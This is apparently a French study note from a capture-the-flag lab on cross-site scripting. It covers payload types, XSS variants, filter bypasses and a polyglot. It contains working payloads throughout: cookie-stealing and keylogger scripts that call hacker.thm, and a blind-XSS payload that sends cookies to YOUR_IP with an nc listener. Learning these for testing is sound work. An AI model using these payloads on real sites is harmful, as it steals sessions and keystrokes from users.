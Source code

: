 ## 🧠 Qu’est-ce qu’un **payload** ?

Un **payload** est le **code JavaScript malveillant** que l’on injecte dans un site vulnérable pour qu’il s’exécute dans le navigateur de la victime.  
Il est composé de deux éléments :

1. **L’intention** → ce que le code doit faire (afficher une alerte, voler des cookies, rediriger, etc.).
2. **La modification** → les ajustements nécessaires pour qu’il fonctionne selon l’endroit où il est injecté (dans un tag HTML, une valeur, du JS, etc.).
---
## 🎯 Exemples d’intentions de payloads

|Type d’intention|Objectif|Exemple|
|---|---|---|
|**Proof of Concept**|Montrer qu’une faille existe|`<script>alert('XSS');</script>`|
|**Vol de session**|Envoyer les cookies à un serveur externe|`<script>fetch('https://hacker.thm/steal?cookie='+btoa(document.cookie));</script>`|
|**Keylogger**|Enregistrer les touches tapées|`<script>document.onkeypress=e=>fetch('https://hacker.thm/log?key='+btoa(e.key))</script>`|
|**Business Logic**|Abuser d’une fonction interne|`<script>user.changeEmail('attacker@hacker.thm');</script>`|
## ⚙️ Les 4 types de XSS

| Type              | Description                                                                                        | Exemple de scénario                             | Persistance            |
| ----------------- | -------------------------------------------------------------------------------------------------- | ----------------------------------------------- | ---------------------- |
| **Reflected XSS** | Le code est renvoyé immédiatement dans la réponse HTTP.                                            | Un paramètre d’URL affiché sans filtrage.       | Non persistante        |
| **Stored XSS**    | Le code est stocké dans la base de données et exécuté quand un autre utilisateur consulte la page. | Commentaire de blog malveillant.                | Persistante            |
| **DOM-Based XSS** | Le code s’exécute côté client à cause du JavaScript du site.                                       | Utilisation de `window.location.hash`.          | Côté client            |
| **Blind XSS**     | Similaire à Stored XSS, mais on ne voit pas le résultat soi-même.                                  | Formulaire de contact lu par un administrateur. | Persistante, invisible |

## 🔍 Comment tester une faille XSS
1. Trouver où l’entrée utilisateur est **affichée dans la page** (URL, formulaire, en-têtes…).
2. Essayer de **faire exécuter du JS simple** (`<script>alert(1)</script>`).
3. Si ça ne marche pas, **adapter la payload** selon le contexte :
    - Dans du **HTML** → `<script>...</script>`
    - Dans un **attribut** → `"><script>...</script>`
    - Dans un **textarea** → `</textarea><script>...</script>`
    - Dans du **JavaScript** → `';alert(1);//`

---

## 💡 Exemples de contournement 

|Contexte|Payload efficace|Explication|
|---|---|---|
|HTML simple|`<script>alert('THM');</script>`|Injection directe|
|Dans un attribut|`"><script>alert('THM');</script>`|Ferme la valeur avant le script|
|Dans un textarea|`</textarea><script>alert('THM');</script>`|Ferme le tag avant le script|
|Dans du JS|`';alert('THM');//`|Termine la commande actuelle|
|Filtrage du mot "script"|`<sscriptcript>alert('THM');</sscriptcript>`|Détourne le filtre|
|Filtrage de `<` et `>`|`/images/cat.jpg" onload="alert('THM');`|Exploite un attribut d’événement|
## 🧩 Payload universelle (Polyglot)

Une **payload polyglot** fonctionne dans presque tous les contextes et contourne la plupart des filtres :
```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
## 🕵️‍♂️ Blind XSS et exfiltration

Quand on ne voit pas le résultat soi-même (par ex. un admin ouvre la page plus tard), il faut que la payload **appelle un serveur externe** pour signaler son exécution :

**Payload :**
```html
</textarea><script>
fetch('http://YOUR_IP:9001?cookie=' + btoa(document.cookie));
</script>
```
**Serveur d’écoute :**
```
nc -nlvp 9001
```
